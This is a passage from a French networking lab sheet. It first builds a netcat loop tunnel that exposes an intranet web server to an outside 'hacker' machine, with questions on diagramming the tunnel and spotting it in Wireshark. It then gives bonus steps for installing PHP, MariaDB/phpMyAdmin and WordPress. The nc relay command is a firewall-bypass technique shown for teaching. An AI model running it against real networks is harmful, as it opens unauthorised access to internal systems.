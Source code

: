 Enfin, côté "target-dev", nous mettons en place la connexion sortante vers la machine distante:
```bash
while true; do nc -v 100.120.0.3 80 -c "nc 100.80.0.5 80"; sleep 2; done
```

>Pour rappel :
>* 100.120.0.3 = isp-a-home
>* 100.80.0.5 = target-intranet

Testez avec la machine "isp-a-hacker" que vous pouvez bien accéder au serveur intranet depuis l'externe sans aucun contrôle via l'URL `http://100.120.0.3:8080`

> Question 9 : À l'aide d'un schéma, expliquez ce tunnel.

> Question 10 : Retrouvez-le dans Wireshark

Il est très difficile de bloquer ou même détecter les tunnels (tunnel chiffré par SSH, ou qui mime une apparence de HTTP, etc.)


PHP (Bonus)
===

Ajoutez un fichier PHP (un simple hello world) dans le dossier `/var/www/html` puis récupérez-le depuis un client : que constatez-vous ?

Le paquet PHP pour Apache est libapache2-mod-php. Installez-le et validez l'interprétation de votre fichier PHP.

> Question 11 : Faîtes une capture d'écran de votre code source PHP et du résultat dans un navigateur.


MariaDB (Bonus)
=======

MariaDB est un fork de MySQL que nous allons utiliser ici, avec PHPMyAdmin pour aider l'administration (création de bases, d'utilisateurs, etc.).

Installez d'abord mariadb-server. Pour finaliser l'installation, exécutez `mysql_secure_installation`, qui permettra de mieux configurer MariaDB et de spécifier un mot de passe root (par défaut vide et non autorisé).

Installez ensuite phpmyadmin (faîtes bien cela *après* avoir installé mariadb-server, dans un autre apt-get, sinon il y aura une erreur). Lors de l'installation de phpmyadmin, vous aurez à répondre à quelques questions : utilisez la fonctionnalité dbconfig, notez le mot de passe que vous choisirez pour l'utilisateur phpmyadmin et activez la configuration pour apache2.

> Question 12 : Faîtes une capture d'écran de PHPMyAdmin connecté en tant que root


WordPress (Bonus)
=========

Enfin, nous allons installer le CMS WordPress. Un CMS (Content Management System) permet de gérer du contenu. WordPress est un projet libre qui va s'exécuter sur notre pile LAMP.

Vous pouvez procéder de deux façons différentes :

* Installer le paquet debian "wordpress", présent dans les dépôts, puis suivre la documentation associée sur le [wiki Debian](https://wiki.debian.org/WordPress) (configuration apache, création de la base de données, configuration wordpress);
* Ou suivre la documentation du site [WordPress](https://fr.wordpress.org/txt-install/) (téléchargement et extraction d'un tar.gz, configuration apache, création de la base de données, configuration wordpress).
